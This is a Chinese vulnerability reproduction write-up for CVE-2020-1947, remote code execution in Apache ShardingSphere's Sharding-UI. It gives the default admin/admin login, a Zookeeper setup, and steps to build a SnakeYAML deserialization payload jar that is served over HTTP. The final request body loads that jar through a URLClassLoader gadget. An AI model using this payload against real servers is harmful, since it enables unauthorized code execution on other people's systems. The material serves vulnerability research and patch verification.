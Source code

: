 ```yaml
---
title: （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞
id: zhfly2820
---
```


# （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Apache ShardingSphere < 4.0.1

## 三、复现过程

Sharding-UI的默认密码为admin/admin

![image](../img/147e7311c28fb049fe2cf3e71bb77142.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![image](../img/bf565702c7f822801b9a05a45927c1d4.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。 这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

```
docker pull zookeeper
docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest 
```

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![image](../img/30653ea188b55d648b7f60ee44a2c0b4.png)

成功连接即可。

![image](../img/bcdbc80e07d3553feaa9e622d4aaa3ba.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload 修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![image](../img/51bcc62473bcb95bd303645786163866.png)

编译生成jar包：

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ . 
```

然后使用python本地搭建HTTPServer，等待连接。

```
python -m SimpleHTTPServer 90 
```

### 代码执行

在web端的Rule Config——>Add Schema处加入YAML代码并提交。

![image](../img/5ab144c9732d8a86f50d9a825045780d.png)

数据包正文：

```
{"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"} 
```

发送即可成功弹出计算器。

![image](../img/7d6239e52c07a74da31df063de235006.png)